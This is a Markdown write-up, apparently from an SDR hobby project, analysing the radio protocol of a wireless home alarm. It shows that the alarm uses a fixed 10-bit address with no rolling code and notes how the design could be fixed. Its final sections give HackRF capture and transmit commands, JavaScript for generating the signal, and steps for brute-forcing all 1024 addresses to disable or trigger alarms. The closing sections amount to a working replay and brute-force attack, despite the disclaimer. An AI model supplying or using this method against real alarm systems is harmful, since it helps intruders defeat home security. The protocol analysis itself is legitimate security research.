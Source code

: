 # Alarm control protocol analysis

## ⚖️ Disclaimer ⚖️

> The purpose of the following details and explanations is NOT to promote neither piracy or larceny, or to discredit the alarm manufacturer. Instead, we'll focus on the major flaws of such a system and how it could be designed differently and fixed.

The manufacturer is the French leader in wireless alarm systems. The alarm itself can be setup easily by yourself, with a bit of configuration behind.

![alt text](../assets/images/alarm-overview.png)

## Technology

The alarm itself has two antennas to prevent RF-signal jamming, listening on both 433Mhz / 434Mhz frequencies. Each remote needs to be paired with the central receiver by settings the bits configuration (yup, spoiler alert, code is user-defined... only).

## Modulation analysis

Let's use the HackRF with a regular ANT500 antenna, or any piece of metal with a length of 34.6 cm (433 MHz half-wave)

Let's press the disable-alarm button of one of the remotes we have and record the signal waveform:

```bash
hackrf_transfer -r alarm-off.bin -f 433920000 -s 2500000 -a 1 -l 8 -g 16
```

Like we've done in the [Remote control analysis](remote-control.md) page, let's analyse the FFT-shape of the signal with GNU Radio Companion.

![alt text](../assets/images/alarm-fft-grc.png)

Let's keep in mind both 0.6 MHz (left and right) frequency peaks.

Now we'll observe the signal in the time domain with Audacity:

> import Raw Data > Signed 8-bit PCM, little endian, stereo (for both I and Q channels)

![alt text](../assets/images/alarm-signal-0.png)

We can clearly notice the header, followed by 8 groups of bits. Let's zoom into one of them:

![alt text](../assets/images/alarm-signal-1.png)

Well, this looks like a simple **OOK** (*On-Off Keying*) modulation with 20 bits that contains the alarm receiver "unique" address, and the order (alarm enable / disable / trigger alarm manually...). 1 and 0 bits are defined by the pulse width.

*Ok but if we use OOK, we should see only one frequency peak, not two as indicated before?*

**Quick answer:** The HackRF is far away from being perfect, plus process the signal throught quadrature, which creates the mirror part of the frequency peak.

**Real valid answer:** [FFT showing 2 signals - GNU Radio](https://ham.stackexchange.com/a/12435)

A nice thing to setup is to configure Audacity to display the sample length for the current selection. The default indications will display the selection in seconds / milliseconds (according to the defined project rate in Hz) but since we can't set the rate above 250kHz, the information will be inexact. Thanks to the samples count measurement, we can translate this into real timing later:

```js
duration_sec = samples_count * 1 / sample_rate // where sample_rate is the frequency used in the hackrf_transfer, 2.5 MHz or 2500000 Hz
```

Each symbol has the same timing (pause / pulse), let's measure it:

![alt text](../assets/images/alarm-signal-2.png)

This gives us around 4200 samples, or 1.68 ms per symbol (600 symbols per second).

Ok now let's zoom a bit more to observe the symbol modulation frequency with a bit of highlight on the sin curves:

![alt text](../assets/images/alarm-signal-3.png)

We can notice that:

- Both I and Q are equals at the same moment, meaning that there's no phase shift. That's a good thing, data is only modulated in **OOK**, nor something like **BPSK** (*Binary Phase Shift Keying*).

- Modulation frequency is generated from 4 sin curves, each one shifted about `2𝜋/4`

- About 78 samples defines one sin period, which means a frequency of **32kHz**

## Protocol analysis

Let's repeat all these steps with another key of the alarm remote:

```
hackrf_transfer -r alarm-on.bin -f 433920000 -s 2500000 -a 1 -l 8 -g 16
```

Import the data into Audacity as another stero track, just under the previous one we got, and compare both signals

![alt text](../assets/images/alarm-signal-4.png)

(**Note:** use the CTRL/CMD + K key combinaison to crop the offset of the signal, because we need both stereo tracks to be synchronised)

The manufacturer website indicates that the address code is set with a combinason of **10 dip-switches**. This gives us the **10 bits address** that we can see above, and that doesn't change, the rest of the payload will be likely the instruction (spot the difference between *enable* and *disable* alarm signals) 

## Protocol flaws & replay attack

As the awesome [Samy Kamkar](https://samy.pl/opensesame/) demonstrated with his *OpenSesame* device, many door bells and garage doors are still using this fixed-address sequence.

However, I was a bit surprised alarm systems will use the same method: I was thinking about something more secure, like the rolling codes used in modern car keys. 

Add the "anti-jamming" double antenna / frequency system (to prevent roll-blocking) and we have a pretty decent system, way more secure than the current one described in this page.

## Generate our own signals

> 👆 If you're thinking about something illegal, please read (again) the disclaimer at the very beginning of this page. 👆

We've seen how to analyse an existing signal, but what about creating our own one? This way, we can iterate over the 1024 possible addresses (`2^10`).

Consider we can skip the 7 last groups of bits sequences (we'll just send the first one, plus the header), we could in theory send up to 20 sequences per second. 

Nice. In less than a minute, we could theoretically brute-force every existing combinaison of address bits and (potentially) disable, or enable any alarm based on this method.

> **Note:** We could apply the De Bruijn algorithm to exploit overlap in the shift registers, but we'll keep this simple for now.

> **Note 2:** I'll use Node.js for the signal generator script, but any language could work there, that's not rocket science.

### Data carrier

As seen before, the data frequency is based on 4 sin signals. Plus, the *I* and *Q* signals are not phase-shifted, which can be created easily with a few lines of code. For the gap between pulses, that even more simple.

```js
function generateGap(buff, nbSamples) {
    buff.push(...new Array(nbSamples * 2 /* I and Q */).fill(0));
}

function generateSinusModulation(buff, nbSamples) {
    const nbWaves = 4;
    const tau = (2 * Math.PI / nbWaves);
    for (i=0;i<nbSamples;i++) {
        // generate n phases alternation signal
        let sin = Math.round(Math.sin(i*DATA_STEP_PER_SAMPLE + (i % nbWaves) * tau) * (HACKRF_AMPLITUDE / 2));
        if (sin > 255) sin = 255;
        buff.push(sin, sin); // I and Q are the same signals
    }
}
```

### Symbols timing

To create all required symbols (header, logic 1 and 0, and gap), we just have to measure the different pulses width as we did before with Audacity.

Check the [generator script file](../assets/code/alarm-generator.js) and complete with your own timing values.

### Generate the 8-bits IQ file

Let's execute our script with the payload we want to send, for example: `10 bits address = 0x000 + 10 bits command = 0x3FF`

```bash
node alarm-generator.js 00000000001111111111 signal.bin
```

### Transmit the signal

Test the signal by sending it to the HackRF with a bit of gain (mind the frequency and the sampling rate):

```bash
hackrf_transfer -t signal.bin -f 433920000 -s 2500000 -a 1 -x 8
```

You should have heard some audio feedback coming from your alarm receiver by now... well done.

### What to do next?

For each bit sequence, we now have to:

1. choose an address (`0...1023`)
2. generate the payload parameter (*address + command*)
3. execute the `alarm-generator.js` script
4. execute the `hackrf_transfer` command

Might be easier to modify the `alarm-generator.js` file to loop over all 1024 address combinaisons, and then use the `child-process` module to execute the `hackrf_transfer` transmit command... 😏
